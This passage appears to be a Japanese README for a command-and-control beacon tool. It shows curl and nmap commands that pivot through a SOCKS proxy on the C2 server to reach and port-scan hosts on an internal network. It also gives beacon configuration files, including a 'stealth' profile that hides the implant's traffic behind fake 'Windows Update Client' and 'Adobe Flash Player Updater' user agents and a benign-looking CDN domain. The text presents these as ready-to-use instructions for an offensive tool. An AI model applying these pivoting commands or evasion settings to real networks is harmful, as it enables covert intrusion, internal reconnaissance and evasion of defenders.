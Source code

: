 ### SOCKSプロキシ活用

#### curl使用例
```bash
# 内部Webサーバアクセス
curl --socks5 <C2サーバIP>:1080 http://192.168.10.100:8080

# HTTPSサイト
curl --socks5 <C2サーバIP>:1080 https://internal.company.com
```

#### nmap使用例
```bash
# 内部ネットワークスキャン
nmap --proxies socks5://<C2サーバIP>:1080 192.168.10.0/24

# ポートスキャン
nmap --proxies socks5://<C2サーバIP>:1080 -p 80,443,22,3389 192.168.10.100
```

#### ブラウザ設定
```
プロキシ設定:
- Type: SOCKS v5
- Host: <C2サーバIP>
- Port: 1080
```

## ⚙️ 設定

### 設定ファイル例

#### 基本設定 (config.txt)
```ini
# C2サーバ設定
server=192.168.1.100
port=4444

# Beacon設定
beacon_id=office_pc_001
sleep=30
jitter=0.3

# オプション
stealth=false
user_agent=Windows Update Client
```

#### ステルス設定 (stealth_config.txt)
```ini
# 高度なステルス設定
server=legitimate-cdn.com
port=443

# 長いチェックイン間隔
sleep=300
jitter=0.6

# 完全ステルス
stealth=true
user_agent=Adobe Flash Player Updater
```
